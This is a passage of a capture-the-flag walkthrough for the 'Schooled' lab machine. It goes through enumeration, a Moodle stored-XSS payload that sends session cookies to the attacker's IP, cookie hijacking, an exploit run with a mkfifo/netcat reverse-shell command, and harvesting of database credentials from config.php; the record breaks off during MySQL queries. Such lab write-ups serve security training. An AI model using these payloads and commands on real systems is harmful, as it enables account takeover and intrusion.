










# Schooled

.JPG>)

| **Machine Name** | Schooled |
| ---------------- | -------- |
| Difficulty       | Medium   |
| Type             | Linux    |

## Overview

The following exploits are covered for obtaining the flags on this target:

* CVE-2020-25627; CVE-2020-14321
* Password reuse
* Sudo binary exploit

## Enumeration:

### Nmap

Let's begin with a basic nmap scan for all TCP ports:

```
└─$ nmap -p- 10.10.10.234                
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 06:59 EDT
Nmap scan report for 10.10.10.234
Host is up (0.016s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 381.06 seconds

```

Now that we have a list of open ports, let's run a more targeted nmap scan:

```
└─$ sudo nmap -sC -sV -A -p22,80,33060 10.10.10.234                                                        255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 07:06 EDT
NSE: DEPRECATION WARNING: bin.lua is deprecated. Please use Lua 5.3 string.pack
Nmap scan report for 10.10.10.234
Host is up (0.017s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=9/10%Time=613B3C52%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20me
SF:ssage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LAN
SF:Desk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRP
SF:C,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid
SF:\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 12.0-RELEASE - 13.0-CURRENT (95%), FreeBSD 11.2-RELEASE - 11.3 RELEASE or 11.2-STABLE (93%), FreeBSD 11.0-RELEASE - 12.0-CURRENT (92%), FreeBSD 12.0-RELEASE - 12.1-RELEASE or 12.0-STABLE (92%), FreeBSD 11.1-RELEASE or 11.2-STABLE (91%), FreeBSD 11.1-STABLE (91%), FreeBSD 11.3-RELEASE (91%), FreeBSD 11.2-RELEASE - 11.3-RELEASE (89%), FreeBSD 11.0-RELEASE (89%), FreeBSD 11.0-STABLE (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   15.46 ms 10.10.19.1
2   15.68 ms 10.10.10.234

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.15 seconds

```

There are three open ports to investigate, including SSH, HTTP and MYSQL.

### Gobuster

Let's run a basic gobuster scan against the target. This can run in the background while we visit the website and explore it manually.

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.234
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.234
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.10.234/images/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.10.234/css/]   
/js                   (Status: 301) [Size: 231] [--> http://10.10.10.234/js/]    
/fonts                (Status: 301) [Size: 234] [--> http://10.10.10.234/fonts/] 
                                                                                 
===============================================================
 Finished
===============================================================

```

### Nikto

Let's run nikto against the target:

```
└─$ nikto -host http://10.10.10.234
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.234
+ Target Hostname:    10.10.10.234
+ Target Port:        80
+ Start Time:         2021-09-10 07:29:37 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (FreeBSD) PHP/7.4.15
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ 7864 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2021-09-10 07:34:03 (GMT-4) (266 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

Nikto confirms that the TRACE method is enabled which was also found by out NMAP scan. This is something we will need to investigate in more detail.

### Website exploration I

The site appears to be a standard template, with a few HTML pages and one PHP page. There are a few JS scripts being run as well. A manual review of the source code for the HTML pages and the JS files does not reveal any clues or useful details.



At the bottom of the home page we something that is interesting, a reference to the website as schooled.htb.



Let's add an entry to our /etc/hosts file to point schooled.htb to the target IP address.

```
└─$ cat /etc/hosts | grep school
10.10.10.234    schooled.htb

```

Next, let's revisit the site using the following URL: http://schooled.htb

We get the same pages we had before, so what can we do next? Well, when a target system is using name resolution in this way, we can assume that there may be multiple services or VHOSTS running on the target. For example, there may be another website at http://www.schooled.htb, OR http://admin.schooled.htb. There is a great tool which will help us to find these so called VHOSTS if they exist called FFUF.

### FFUF

Let's run FFUF against the target as follows. The tool takes as an argument the option to replace a keyword with one from a dictionary, allowing us to test for VHOSTS very quickly.


NOTE: You may get a lot of output straight away, which are most likely false positives. For more information regarding this check out the documentation:

[https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)


```
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://schooled.htb -H "Host: FUZZ.schooled.htb" -fs 20750

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://schooled.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.schooled.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 20750
________________________________________________

moodle                  [Status: 200, Size: 84, Words: 5, Lines: 2]
:: Progress: [220560/220560] :: Job [1/1] :: 205 req/sec :: Duration: [0:19:02] :: Errors: 0 ::

```

Nice, we found a new page at [http://moodle.schooled.htb](http://moodle.schooled.htb)

### Website exploration II (Moodle)

Visiting the website at [http://moodle.schooled.htb](http://moodle.schooled.htb) reveals that we are now connected to a LMS, Learning Management System. Since moodle is open source, we can also view the source on github:





Let's create an account and login to the website and look around.



There is some filtering, so we need to put in a valid email, which the error message tells us. For this example, I used dood@student.schooled.htb which created the account.

After browsing the site, we find that we can only enroll in one of the available courses, Mathematics. Once enrolled, we can view the announcements for the course, of which there are two. The interesting one though is the post from Manuel.



If we go back to our profile page, and click edit, we can see that there is a field for our "Moodlenet profile".



We can enter and save arbitrary values here, but that does not get us anywhere. This is the point where I got stuck on this box. I tried to logically work out why and how I ended up here. I found the LMS, created an account and logged in. I was only able to join one course, which also happens to have instructions to update this one specific field in my users' profile.&#x20;


This is a very CTF style path of breadcrumbs that lead us somewhere very specific, and to become good at CTF's one needs to learn how to spot these paths.


Based on all this, we could assume that the vulnerability sits within this field, so let's google for something like "moodlenet profile exploit".

We find the following repo on github (2nd in search results for me). This repo provides details how to steal another user's cookie, and contains instructions to do so.



## Gaining Access

### CVE-2020-25627

To confirm that the "Moodlenet profile" field is vulnerable to XSS, which in turn will allow us to steal the session cookie from anyone who visits our profile page. Let's test it as per the instructions in the repo:



Nice, we have finally found something that indicates we could be on the right path.

Before continuing on, the repo talks about starting a webserver and hosting the authors xss.php file, however, I found that this was not entirely necessary. Simply starting up a netcat listener on port 80 worked find for me in this scenario.

Next, let's modify the payload by updating it with our attacker machine IP, and putting in a non existing file name. Then paste it into the vulnerable field and save the change.&#x20;

```
<script>var i=new Image;i.src="http://10.10.19.99/nopage.php?"+document.cookie;</script>
```

At this point we need to wait a while. Why are we doing this? Well, think back to the message posted by Manuel, where he states that he will check students profile pages for their "Moodlenet profile" value. When Manuel visits our profile page, we should get a hit which contains his session cookie value, as shown below:

```
└─$ sudo nc -nvlp 80                                                                                       130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.234.
Ncat: Connection from 10.10.10.234:49193.
GET /nopage.php?MoodleSession=1kf60palrqln883ht577rot01u HTTP/1.1
Host: 10.10.19.99
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=28

```

Now, we can copy the cookie value and replace our own cookie value for the site. There are multiple ways to do this. For this example, we can use the browsers developer tools. All we need to do is find the correct cookie, MoodleSession in this case, and replace the value:



Now, when we refresh the page, we are logged in as "Manuel Phillips".



We now have control of a teacher account, but once again, after browsing the site as "Manuel", we don't find anything obvious to take us any further. At this point, we need to have a look at what other vulnerabilities are out there, so let's run searchsploit:

```
└─$ searchsploit moodle
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Mambo Component Mam-Moodle alpha - Remote File Inclusion                       | php/webapps/2064.txt
Moodle - Remote Command Execution (Metasploit)                                 | linux/remote/29324.rb
Moodle 1.1/1.2 - Cross-Site Scripting                                          | php/webapps/24071.txt
Moodle 1.5.2 - 'moodledata' Remote Session Disclosure                          | php/webapps/3508.txt
Moodle 1.5/1.6 - '/mod/forum/discuss.php?navtail' Cross-Site Scripting         | php/webapps/29284.txt
Moodle 1.6dev - SQL Injection / Command Execution                              | php/webapps/1312.php
Moodle 1.7.1 - 'index.php' Cross-Site Scripting                                | php/webapps/30261.txt
Moodle 1.8.3 - 'install.php' Cross-Site Scripting                              | php/webapps/31020.txt
Moodle 1.8.4 - Remote Code Execution                                           | php/webapps/6356.php
Moodle 1.9.3 - Remote Code Execution                                           | php/webapps/7437.txt
Moodle 1.x - 'post.php' Cross-Site Scripting                                   | php/webapps/24356.txt
Moodle 2.0.1 - 'PHPCOVERAGE_HOME' Cross-Site Scripting                         | php/webapps/35297.txt
Moodle 2.3.8/2.4.5 - Multiple Vulnerabilities                                  | php/webapps/28174.txt
Moodle 2.5.9/2.6.8/2.7.5/2.8.3 - Block Title Handler Cross-Site Scripting      | php/webapps/36418.txt
Moodle 2.7 - Persistent Cross-Site Scripting                                   | php/webapps/34169.txt
Moodle 2.x/3.x - SQL Injection                                                 | php/webapps/41828.php
Moodle 3.10.3 - 'label' Persistent Cross Site Scripting                        | php/webapps/49714.txt
Moodle 3.10.3 - 'url' Persistent Cross Site Scripting                          | php/webapps/49797.txt
Moodle 3.4.1 - Remote Code Execution                                           | php/webapps/46551.php
Moodle 3.6.1 - Persistent Cross-Site Scripting (XSS)                           | php/webapps/49814.txt
Moodle 3.6.3 - 'Install Plugin' Remote Command Execution (Metasploit)          | php/remote/46775.rb
Moodle 3.8 - Unrestricted File Upload                                          | php/webapps/49114.txt
Moodle 3.9 - Remote Code Execution (RCE) (Authenticated)                       | php/webapps/50180.py
Moodle < 1.6.9/1.7.7/1.8.9/1.9.5 - File Disclosure                             | php/webapps/8297.txt
Moodle Blog 1.18.2.2/1.6.2 Module - SQL Injection                              | php/webapps/28770.txt
Moodle Filepicker 3.5.2 - Server Side Request Forgery                          | php/webapps/47177.txt
Moodle Help Script 1.x - Cross-Site Scripting                                  | php/webapps/24279.txt
Moodle Jmol Filter 6.1 - Directory Traversal / Cross-Site Scripting            | php/webapps/46881.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

There are quite a few results, most of which are version specific. We need to try and find out which version the target is running.

A quick google search for "" and we get an answer on stackexchange:



Let's browse to the page suggested in the article above: [http://moodle.schooled.htb/moodle/lib/upgrade.txt](http://moodle.schooled.htb/moodle/lib/upgrade.txt)

&#x20;Looks like the version is 3.9 as this is the newest version number in the text file:



Looking at the exploits we found via searchsploit, there is only one that matches our exactly version:

```
Moodle 3.9 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50180.py
```

Looking at the details for this exploit, we find that it relates to CVE-2020-14321.

### CVE-2020-14321

According to the exploit, this script will escalate our privileges from teacher to manager, which will give us access to site administration tools.

Copy the exploit to the working folder and review the code. Once we are happy that it is not going to destroy our box, let's run it. Since we don't have the password for "Manuel", we need to use the cookie option as shown below. In addition, we need to add the command for the reverse shell. Finally before we proceed with the exploit, start a netcat listener:

```
└─$ python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie 1kf60palrqln883ht577rot01u -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.19.99 9999 >/tmp/f'
 __     __     __   __  __   __              __  __                                                              
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /|                                                          
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz                                                
                                                                                                                 
Moodle 3.9 - Remote Command Execution (Authenticated as teacher)                                                 
Course enrolments allowed privilege escalation from teacher role into manager role to RCE                        
                                                        
[+] Login on site: MoodleSession:1kf60palrqln883ht577rot01u ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.19.9 9999 >/tmp/f: ✓
[+] Keep breaking ev3rYthiNg!!                                                                                   

```

When we check the netcat listener, we should see that we now have a reverse shell on the target as the "www" user:

```
└─$ nc -nvlp 9999
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.234.
Ncat: Connection from 10.10.10.234:15834.
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
$ 
```

Let's check which users we can target on the box:

```
$ ls -la /usr/home
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26  2021 ..
drwx------   2 jamie  jamie  11 Feb 28  2021 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve
$ 
```

There are two users, we'll make a note of these as we may need to privesc to one of them before we can try and privesc to root.

## Privilege Escalation

### Enumeration as "www"

Let's do a google search to see if we can find details for the configuration file for the local moodle installation:



The configuration file is called config.php, and uses variables that start with the $CFG-> designation. Let's do a search for this config file from within the apache directory:

```
$ pwd
/usr/local/www/apache24/data/moodle/blocks/rce/lang/en
$ cd /usr/local/www/apache24
$ find . -name config.php 2>/dev/null
./moodledata/muc/config.php
./data/moodle/cache/classes/config.php
./data/moodle/mod/quiz/accessrule/seb/config.php
./data/moodle/mod/chat/gui_ajax/theme/course_theme/config.php
./data/moodle/mod/chat/gui_ajax/theme/bubble/config.php
./data/moodle/mod/chat/gui_ajax/theme/compact/config.php
./data/moodle/theme/classic/config.php
./data/moodle/theme/boost/config.php
./data/moodle/config.php
./data/moodle/lib/editor/tinymce/plugins/spellchecker/config.php
$ 
```

After some brief searching, I found some creds in one of the above files as shown below:

```
$ cat ./data/moodle/config.php | grep CFG
unset($CFG);
global $CFG;
$CFG = new stdClass();
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';
$CFG->directorypermissions = 0777;
$
```

Let's try and connect to the database:

```
$ which mysql
$ mysql
/bin/sh: mysql: not found
$ env
LANG=C.UTF-8
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/local/lib
OLDPWD=/usr/local/www/apache24/moodledata
PWD=/usr/local/www/apache24
HOME=/
MM_CHARSET=UTF-8
RC_PID=26
BLOCKSIZE=K
$
```

Looks like we may need to update our environment variable for PATH.

```
$ export PATH="/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/sbin:/usr/local/bin"
$ env
LANG=C.UTF-8
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/sbin:/usr/local/bin
LD_LIBRARY_PATH=/usr/local/lib
OLDPWD=/var/db
PWD=/var/db/mysql
HOME=/
MM_CHARSET=UTF-8
RC_PID=26
BLOCKSIZE=K
$ which mysql
/usr/local/bin/mysql
$
```

Let's see if there is an installation of mysql now:

```
$ which mysql
/usr/local/bin/mysql
$ 
```

That resolves the issue, however, we now get another issue, which is most likely related to the limited shell we are in:

```
$ mysql -u moodle -p
Enter password: PlaybookMaster2020
db;
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'db' at line 1
$
```

Let's upgrade the shell with python:

```
$ which python
$ which python3
/usr/local/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
[www@Schooled /var/db/mysql]$
```

This is good, but now we are getting character duplication. To get around this, one option is the following sequence:

> Ctrl + z\
> stty raw -echo\
> fg\
> Hit the enter key twice

This is much better. Let's connect to the mysql service now.

### MySQL

After looking around for a bit, I eventually found the mdl\_user table in the moodle database. Looking through this table, I found an entry for the user Jamie. Since the only users who have accounts on the box are "jamie" and "steve", let's grab the encrypted password for Jamie and try and crack it.

```
[www@Schooled /]$ mysql -u moodle -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1638
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
2 rows in set (0.00 sec)

moodle@localhost [(none)]> use moodle;
Database changed
moodle@localhost [moodle]> show tables like 'user';
Empty set (0.00 sec)

moodle@localhost [moodle]> show tables like '%user%';
+---------------------------------+
| Tables_in_moodle (%user%)       |
+---------------------------------+
| mdl_assign_user_flags           |
